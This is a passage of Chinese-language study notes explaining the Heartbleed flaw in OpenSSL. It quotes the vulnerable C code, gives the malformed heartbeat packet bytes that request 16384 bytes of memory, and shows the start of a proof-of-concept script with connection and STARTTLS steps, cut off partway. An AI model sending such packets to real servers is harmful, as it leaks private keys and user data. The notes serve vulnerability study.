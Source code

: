  所以程序将分配一段由访问者指定大小的内存区域，这段内存区域最大为 (65535 + 1 + 2 + 16) 个字节。变量bp是用来访问这段内存区域的指针。

```c++
/* Enter response type, length and copy payload */
*bp++ = TLS1_HB_RESPONSE;
s2n(payload, bp);

memcpy(bp, pl, payload); &emsp;&emsp;宏s2n与宏n2s干的事情正好相反：s2n读入一个16 bit长的值，然后将它存成双字节值，所以s2n会将与请求的心跳包载荷长度相同的长度值存入变量payload。然后程序从pl处开始复制payload个字节到新分配的bp数组中——pl指向了用户提供的心跳包数据。最后，程序将所有数据发回给用户。
```

也就是说，用户构造的恶意payload，如果用户并没有在心跳包中提供足够多的数据，会导致什么问题？比如pl指向的数据实际上只有一个字节，那么memcpy会把这条SSLv3记录之后的数据——无论那些数据是什么——都复制出来

心跳包具体结构如下👇🏻

![img](/Users/wwt13/Documents/Notes/assets/1586019902_64534789.jpg)

由前面分析可知openssl并不会检查Payload length长度域，所以可以直接将其设置为`0x4000`，获取到16384个字节的内存数据，下面是实验设计的畸形心跳漏洞包的相关代码

```python
# 0x18:Heartbleed消息类型; 0x0302:TLS1.1; 0x0003:心跳包长度
# 0x01:Heartbleed request类型; 0x4000:payload长度
hb = h2bin('18 03 02 00 03 01 40 00')
```

poc.py具体实现流程如下👇🏻

1.  首先建立socket连接：

    ```python
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    print 'Connecting...'
    
    s.connect((args[0], opts.port))
    ```

2.  根据连接判断协议类型，因为使用OpenSSL协议的不仅仅有https，同时还包括smtp，pop3，imap等协议

    ```python
    if opts.starttls != '':
    	print 'Sending STARTTLS Protocol Command...'
    
    if opts.starttls == 'smtp':
        s.recv(BUFSIZ)
        s.send("EHLO openssl.client.net\n")
        s.recv(BUFSIZ)
        s.send("STARTTLS\n")
        s.recv(BUFSIZ)
    
    if opts.starttls == 'pop3':
        s.recv(BUFSIZ)
        s.send("STLS\n")
        s.recv(BUFSIZ)
    
    if opts.starttls == 'imap':
        s.recv(BUFSIZ)
        s.send("STARTTLS\n")
        s.recv(BUFSIZ)
    